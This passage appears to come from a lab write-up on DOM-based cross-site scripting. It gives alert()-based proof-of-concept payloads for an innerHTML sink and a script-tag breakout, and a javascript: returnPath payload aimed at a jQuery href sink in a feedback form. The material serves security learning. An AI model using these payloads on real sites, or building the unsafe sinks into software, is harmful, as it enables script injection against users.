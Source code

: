 ```
"><script>alert(1);</script>
```


#### DOM XSS in `innerHTML` sink using source `location.search`

Final Payload

```html
<img src=1 onerror=alert(document.domain)>
```

  
#### DOM XSS in jQuery anchor `href` attribute sink using `location.search` source


Source code in the feedback form at `/feedback`

```html
<form id="feedbackForm" action="/feedback/submit" method="POST" enctype="application/x-www-form-urlencoded">
    <input required type="hidden" name="csrf" value="rRaLC1LKcbSdftoImNi1B6R5VjgoKEwv">
    <label>Name:</label>
    <input required type="text" name="name">
    <label>Email:</label>
    <input required type="email" name="email">
    <label>Subject:</label>
    <input required type="text" name="subject">
    <label>Message:</label>
    <textarea required rows="12" cols="300" name="message"></textarea>
    <button class="button" type="submit">
        Submit feedback
    </button>
    <span id="feedbackResult"></span>
    <script src="/resources/js/jquery_1-8-2.js"></script>
    <div class="is-linkback">
        <a id="backLink">Back</a>
    </div>
    <script>
        $(function() {
            $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
        });
    </script>
</form>
```

Final Payload

```
<url>/feedback?returnPath=javascript:alert(document.domain)
```


####  DOM XSS in jQuery selector sink using a hashchange event
